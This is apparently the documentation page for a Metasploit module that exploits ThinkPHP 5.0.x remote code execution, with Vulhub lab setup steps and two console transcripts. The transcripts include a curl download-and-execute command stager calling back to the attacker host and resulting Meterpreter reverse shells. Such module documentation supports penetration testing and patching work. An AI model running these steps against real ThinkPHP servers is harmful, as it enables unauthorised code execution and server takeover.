 ## Vulnerable Application

### Description

This module exploits one of two PHP injection vulnerabilities in the
ThinkPHP web framework to execute code as the web user.

Versions up to and including 5.0.23 are exploitable, though 5.0.23 is
vulnerable to a separate vulnerability. The module will automatically
attempt to detect the version of the software.

Tested against versions 5.0.20 and 5.0.23 as can be found on Vulhub.

### Setup

1. `git clone https://github.com/vulhub/vulhub`
2. `cd vulhub/thinkphp/5-rce` for 5.0.20 or `cd vulhub/thinkphp/5.0.23-rce` for 5.0.23
3. `docker-compose up -d`

### Targets

```
Id  Name
--  ----
0   Unix Command
1   Linux Dropper
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### SRVPORT

If you are testing the [Docker container](#setup), which binds to port
8080 by default, and you are using an HTTP(S) command stager, set this
to a different port to bind the command stager server to.

## Scenarios

### ThinkPHP 5.0.20 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5-rce)

```
msf5 > use exploit/unix/webapp/thinkphp_rce
msf5 exploit(unix/webapp/thinkphp_rce) > options

Module options (exploit/unix/webapp/thinkphp_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      8080             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf5 exploit(unix/webapp/thinkphp_rce) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf5 exploit(unix/webapp/thinkphp_rce) > set lhost 192.168.1.3
lhost => 192.168.1.3
msf5 exploit(unix/webapp/thinkphp_rce) > set cmdstager::flavor curl
cmdstager::flavor => curl
msf5 exploit(unix/webapp/thinkphp_rce) > set srvport 8888
srvport => 8888
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.20 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.20 automatically
[*] Using URL: http://0.0.0.0:8888/IV0dIafe
[*] Local IP: http://192.168.1.3:8888/IV0dIafe
[*] Generated command stager: ["curl -so /tmp/UJiMvCsm http://192.168.1.3:8888/IV0dIafe;chmod +x /tmp/UJiMvCsm;/tmp/UJiMvCsm;rm -f /tmp/UJiMvCsm"]
[*] Executing command: curl -so /tmp/UJiMvCsm http://192.168.1.3:8888/IV0dIafe;chmod +x /tmp/UJiMvCsm;/tmp/UJiMvCsm;rm -f /tmp/UJiMvCsm
[*] Client 192.168.1.3 (curl/7.52.1) requested /IV0dIafe
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 1 opened (192.168.1.3:4444 -> 192.168.1.3:64475) at 2020-04-13 01:02:13 -0500
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ c94d71fb70ec (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.21.0.2
OS           : Debian 9.4 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

### ThinkPHP 5.0.23 from [Vulhub](https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce)

```
msf5 exploit(unix/webapp/thinkphp_rce) > set rport 8081
rport => 8081
msf5 exploit(unix/webapp/thinkphp_rce) > run

[*] Started reverse TCP handler on 192.168.1.3:4444
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable. ThinkPHP 5.0.23 is a vulnerable version.
[*] Targeting ThinkPHP 5.0.23 automatically
[*] Using URL: http://0.0.0.0:8888/zD3iTDja
[*] Local IP: http://192.168.1.3:8888/zD3iTDja
[*] Generated command stager: ["curl -so /tmp/XnysdYyf http://192.168.1.3:8888/zD3iTDja;chmod +x /tmp/XnysdYyf;/tmp/XnysdYyf;rm -f /tmp/XnysdYyf"]
[*] Executing command: curl -so /tmp/XnysdYyf http://192.168.1.3:8888/zD3iTDja;chmod +x /tmp/XnysdYyf;/tmp/XnysdYyf;rm -f /tmp/XnysdYyf
[*] Client 192.168.1.3 (curl/7.52.1) requested /zD3iTDja
[*] Sending payload to 192.168.1.3 (curl/7.52.1)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3012516 bytes) to 192.168.1.3
[*] Meterpreter session 2 opened (192.168.1.3:4444 -> 192.168.1.3:64482) at 2020-04-13 01:03:29 -0500
[*] Command Stager progress - 100.00% done (112/112 bytes)
[*] Server stopped.

meterpreter > getuid
Server username: no-user @ 9a6301c3c31d (uid=33, gid=33, euid=33, egid=33)
meterpreter > sysinfo
Computer     : 172.22.0.2
OS           : Debian 9.6 (Linux 4.19.76-linuxkit)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

